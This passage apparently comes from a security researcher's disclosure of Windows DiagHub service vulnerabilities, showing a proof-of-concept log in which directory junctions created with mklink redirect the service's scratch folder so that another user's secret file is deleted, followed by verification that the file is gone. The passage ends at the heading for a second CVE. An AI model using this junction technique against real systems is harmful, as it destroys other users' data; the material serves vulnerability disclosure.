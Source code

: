 ```
Loading agent: 514a5e80-cc1b-4844-9139-0da4afdcf814 -> NetworkCollectionAgent.dll
Session 79FE9A49-935D-430B-B619-C919D9A46D22: {79fe9a49-935d-430b-b619-c919d9a46d22}
  Running
Exeucuting command: CMD.exe /c mklink /d /j "c:\111\poc-1\workdir\diaghub-delete-poc\Etw" "c:\111\poc-1\workdir\diaghub-delete-poc\ETW"
Junction created for c:\111\poc-1\workdir\diaghub-delete-poc\Etw <<===>> c:\111\poc-1\workdir\diaghub-delete-poc\ETW
Exeucuting command: CMD.exe /c mklink /d /j "c:\111\poc-1\workdir\diaghub-delete-poc\ETW\79FE9A49-935D-430B-B619-C919D9A46D22\EP" "C:\Users\irsl\secret"
Junction created for c:\111\poc-1\workdir\diaghub-delete-poc\ETW\79FE9A49-935D-430B-B619-C919D9A46D22\EP <<===>> C:\Users\irsl\secret
Exeucuting command: VSDiagnostics.exe stop 79FE9A49-935D-430B-B619-C919D9A46D22 /output:-

Microsoft (R) VS Standard Collector

Creating instance of StandardCollector 42cbfaa7-a4a7-47bb-b422-bd10e9d02700 (Windows Native)
Exception from HRESULT: 0xC111004E
   at Microsoft.DiagnosticsHub.StandardCollector.ICollectionSessionNative.Stop()
   at Microsoft.DiagnosticsHub.StandardCollector.CollectorActions.Stop(RuntimeOptions options) in C:\Projects\windows-dcom-hacks\work\DiagHub\1\vsdiag\VSDiagnostics.Native\DiagnosticsHub\StandardCollector\CollectorActions.cs:line 177
   at Microsoft.DiagnosticsHub.StandardCollector.Program.Main(String[] args) in C:\Projects\windows-dcom-hacks\work\DiagHub\1\vsdiag\VSDiagnostics.Native\DiagnosticsHub\StandardCollector\Program.cs:line 56

Done!
```


The file was indeed deleted, verifying with the other user (the victim):

```
C:\Users\irsl>dir secret\secret.txt
 Volume in drive C is Windows
 Volume Serial Number is D460-7EB1

 Directory of C:\Users\irsl\secret

File Not Found

C:\Users\irsl>type secret\secret.txt
The system cannot find the file specified.
```


Proof of concept code is attached (`DiagHubFileDeletePoc`). The other project (`VSDiagnostics.Native`) is a slightly enhanced version of Visual Studio 2017's builtin tool
(installed by default to `C:\Program Files (x86)\Microsoft Visual Studio\2017\Community\Team Tools\DiagnosticsHub\Collector`), adjusted to work with the OS's diaghub 
service (instead of VS's diaghub which is a similar service with similar API but different IIDs and some more minor differences).


## Vulnerability #2 (CVE-2021-28322): dropping files outside the scratch directory (no control over the content)
